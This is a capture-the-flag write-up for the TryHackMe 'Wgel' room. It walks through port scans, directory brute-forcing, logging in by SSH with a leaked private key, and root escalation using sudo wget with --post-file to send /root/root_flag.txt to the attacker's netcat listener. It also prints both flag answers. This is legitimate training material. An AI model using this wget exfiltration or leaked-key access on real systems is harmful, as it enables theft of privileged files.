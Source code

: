 # Wgel

<div align="left">

<figure><img src="../.gitbook/assets/image (40).png" alt="" width="188"><figcaption></figcaption></figure>

</div>

🔗 [Wgel](https://tryhackme.com/room/wgelctf)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.22.231`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

### Task 2 - Reconnaissance

<pre class="language-bash"><code class="lang-bash">su
echo "10.10.22.231 wgel.thm" >> /etc/hosts

mkdir thm/wgel.thm
cd thm/wgel.thm
mkdir {nmap,content,exploits,scripts}

# At the end of the room
# To clean up the last line from the /etc/hosts file
<strong>sed -i '$ d' /etc/hosts
</strong></code></pre>

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 wgel.thm
ING wgel.thm (10.10.22.231) 56(84) bytes of data.
64 bytes from wgel.thm (10.10.22.231): icmp_seq=1 ttl=63 time=63.8 ms
64 bytes from wgel.thm (10.10.22.231): icmp_seq=2 ttl=63 time=69.9 ms
64 bytes from wgel.thm (10.10.22.231): icmp_seq=3 ttl=63 time=63.3 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix, while Windows systems usually have a TTL of 128 secs.

Of course, start to check information scanning open ports:

```bash
nmap --open -p0- -n -Pn -vvv --min-rate 5000 wgel.thm -oG nmap/port_scan
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-06 13:14 EDT
Initiating SYN Stealth Scan at 13:14
Scanning wgel.thm (10.10.22.231) [65536 ports]
Discovered open port 22/tcp on 10.10.22.231
Discovered open port 80/tcp on 10.10.22.231
Completed SYN Stealth Scan at 13:14, 14.20s elapsed (65536 total ports)
Nmap scan report for wgel.thm (10.10.22.231)
Host is up, received user-set (0.070s latency).
Scanned at 2023-10-06 13:14:45 EDT for 14s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sudo</td><td>run as root</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

It looks like there are 2 open ports on the machine: 21, 22, 80.

Now, we need to search which services are running on open ports:

```bash
nmap -p22,80 -n -Pn -vvv -sCV --min-rate 5000 wgel.thm -oN nmap/open_port
```

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
|   256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see that we've two open ports: 22 and 80.

### Task 3 - What are the contents of user.txt?

Then we can start to see website (port 80):

<figure><img src="../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

and see page source for checking information disclosure.

<figure><img src="../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Very good! Thanks to this message, we know that Jessie is a user/web master.

Another good thing to do, is find hidden paths on website using gobuster

```
gobuster dir -u wgel.thm -w /usr/share/wordlists/dirb/common.txt
```

<figure><img src="../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

We can explore /sitemap path:

<figure><img src="../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

We can try to do a new gobuster search start at this point:

```bash
gobuster dir -u wgel.thm/sitemap -w /usr/share/wordlists/dirb/common.txt  
```

<figure><img src="../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

<div align="left">

<figure><img src="../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

</div>

we've find and id\_rsa:

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

remembering that we've user and id rsa, first take permission to id\_rsa file and try login:

```bash
chmod 600 id_rsa
ssh -i id_rsa jessie@wgel.thm
```

<div align="left">

<figure><img src="../.gitbook/assets/Schermata del 2023-10-07 15-16-33.png" alt=""><figcaption></figcaption></figure>

</div>

We're in, try to find user.txt flag using find command:\


```bash
find / -type f -iname "*flag.txt" 2>/dev/null
```

<figure><img src="../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

<details>

<summary>🚩 Flag 1 (user_flag.txt)</summary>

057c67131c3d5e42dd5cd3075b198ff6

</details>

### Task 4 - What are the contents of root.txt?

We can do sudo -l command to discover user's permissions.

<figure><img src="../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

We can run /usr/bin/wget as root. Perfect, time to go to GTFOBins ([https://gtfobins.github.io/](https://gtfobins.github.io/)) and find our exploit.&#x20;

<figure><img src="../.gitbook/assets/image (43).png" alt=""><figcaption><p><a href="https://gtfobins.github.io/gtfobins/wget/">https://gtfobins.github.io/gtfobins/wget/</a></p></figcaption></figure>

<div align="left">

<figure><img src="../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

</div>

unfortunately, it doesn't work!

Checking on google, we find this good article that suggests to use post-file option of wget  command, to send the content of any file.

<figure><img src="../.gitbook/assets/image (44).png" alt=""><figcaption><p><a href="https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/">https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/</a></p></figcaption></figure>

More probably root flag there're in root path and its name will be similar than user\_flag.txt, then, we can try to setting post-file option: —post-file=/root/root\_flag.txt, add our IP and open a listen session with netcat to receive file.

<figure><img src="../.gitbook/assets/image (54).png" alt=""><figcaption><p>find IP and listen on port 4444</p></figcaption></figure>

```bash
sudo /usr/bin/wget http://10.9.80.228:4444 --post-file=/root/root_flag.txt
```

<figure><img src="../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

<div align="left">

<figure><img src="../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

</div>

Well done! Root flag found!

<details>

<summary>🚩 Flag 2 (root_flag.txt)</summary>

b1b968b37519ad1daa6408188649263d

</details>
